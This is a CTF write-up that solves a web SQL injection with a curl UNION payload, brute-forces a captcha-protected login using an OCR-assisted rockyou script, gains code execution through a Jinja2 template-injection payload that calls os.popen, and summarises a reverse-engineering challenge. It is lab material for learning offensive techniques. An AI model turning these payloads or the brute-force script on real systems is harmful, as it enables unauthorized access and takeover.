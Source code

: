 ```yaml
---
title: "Blackberry-CCoe-Anniversary CTF 2025 - Writeup"
date: 2025-05-09
categories: [CTF, Writeup]
tags: [Reverse Engineering, web]
image: assets/writeups/BBCTF/BBCTF.png
---
```



## web

## Challenge name : SQLI Series - 1

**DESCRIPTION**
This store is only for my customers to visit and do online purchase. There are Apple, Banana and Cherry. Nothing else right?

First, we were given a Dockerfile to set up the challenge on our own server, along with a link to the web-based challenge, which had a fruit-themed interface. The first thing I tried was entering a - character in the input field to check for a SQL error, since the challenge name hinted at an SQL injection. However, instead of an error, the response I got was simply "Forbidden".

![img](assets/writeups/BBCTF/BBCTF1.png)
![img](assets/writeups/BBCTF/BBCTF2.png)

After that, I downloaded the Dockerfile and set it up on my own server. While inspecting the setup, I found a hint  the application only accepts requests with a specific User-Agent header: UMCS-CTF.

![img](assets/writeups/BBCTF/BBCTF3.png)

Next, I asked ChatGPT what to do with all the findings I had so far, and it provided me with a potential payload to try: 

```sh
  curl -X POST http://157.180.92.15:5001/ \
  -H "User-Agent: UMCS-CTF" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "search=%' UNION SELECT 1, (SELECT flag_value FROM flag) -- -"
```
And get the flag
 
 ![img](assets/writeups/BBCTF/BBCTF4.png)

 the flag is bbctf{user_agent_is_not_enough_to_prevent_sqli!}


## Challenge Name : Sekure Note

**Description** I dont think you are able to get the flag. The captcha is too strong :(

Note: This challenge's login is meant to be bruted. Check source code for which wordlist to use :)

We were given a login link and a Dockerfile to set up the challenge on our own server. After setting it up, I opened the app.py file to look for any hints. There, I found hardcoded credentials  `username: admin` and `password: RANDOMPASSWORD` along with a comment referencing `#rockyou`, suggesting that the password can be brute-forced. If the login is successful, it redirects the user to the /admin/note page.

![img](assets/writeups/BBCTF/BBCTF5.png)

Next, I asked ChatGPT to help brute-force the login page using the username admin and passwords from the rockyou.txt wordlist. The login page also had a captcha, so GPT used OCR (Optical Character Recognition) to bypass it. Eventually, the correct password was found: peaches. Here's the script used:
 

```python
import requests
from PIL import Image
from io import BytesIO
import pytesseract

# Optional (kalau kau pakai Windows)
# pytesseract.pytesseract.tesseract_cmd = r'C:\Program Files\Tesseract-OCR\tesseract.exe'

url = 'http://157.180.92.15:7999/'
login_url = f'{url}/'  # or /login kalau ada
rockyou_path = 'rockyou.txt'  # make sure file ada

s = requests.Session()

# Step 1: Get login page and captcha image
r = s.get(login_url)
# Parse captcha image URL
from bs4 import BeautifulSoup
soup = BeautifulSoup(r.text, 'html.parser')
captcha_img_tag = soup.find('img')  # or more specific if needed
captcha_src = captcha_img_tag['src']
if not captcha_src.startswith('http'):
    captcha_src = url + captcha_src

# Step 2: Download captcha image
captcha_img_resp = s.get(captcha_src)
captcha_img = Image.open(BytesIO(captcha_img_resp.content))

# Step 3: OCR the captcha
captcha_text = pytesseract.image_to_string(captcha_img).strip()
print('[*] OCR Captcha:', captcha_text)

# Step 4: Bruteforce with rockyou.txt
for pw in open(rockyou_path, 'r', encoding='latin-1'):
    pw = pw.strip()
    data = {
        'username': 'admin',
        'password': pw,
        'captcha': captcha_text
    }
    res = s.post(login_url, data=data, allow_redirects=False)

    # Check login success
    if res.status_code == 302 and '/admin/notes' in res.headers.get('Location', ''):
        print(f'[+] SUCCESS! Password: {pw}')
        break
else:
    print('[-] Password not found in rockyou.txt')
```

After logging in, I was redirected to the admin notes page. To test for SSTI (Server-Side Template Injection), I entered the payload `[{ 7*7 }]`. If the output returns 49, it confirms that the template engine is evaluating the expression  which means SSTI is present.

Here’s the result:
![img](assets/writeups/BBCTF/BBCTF6.png)

Next, I began crafting a payload to exploit the SSTI vulnerability. Since the app was using HTML with Jinja2, I tested several variations. The one that worked for me was:

{% raw %}
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls ../cat flag.txt')|attr('read')()}}
```
{% endraw %}

![img](assets/writeups/BBCTF/BBCTF7.png)

The Flag Is BBCTF{c4ptcha_4nd_sst1_m4st3r!}

## Reverse Engineering

## Challenge Name : Trust-issue

Given an elf file the first step I do is check file type and use strings if there any important things . Got base 64 but it just a bait for the next step 

![img](assets/writeups/BBCTF/BBCTF8.png)

![img](assets/writeups/BBCTF/BBCTF9.png)

When I decode it just got the fake flag . Next we use `ida` to dissasamble it decompyle it and see the pseudocode .There's a lot of main so you need to find the real main and follow the flow. Upon analyze it I found there is hexString the input before user enter the input copy it and put it on llm with a proper prompt and it give a python script . Run the script and we get the flag .

![img](assets/writeups/BBCTF/BBCTF10.png)

![img](assets/writeups/BBCTF/BBCTF11.png)

Here is the Flag : bbctf{N0t_A11_3ntry_St4rts_Fr0m_M41N}

![img](assets/writeups/BBCTF/BBCTF13.png)








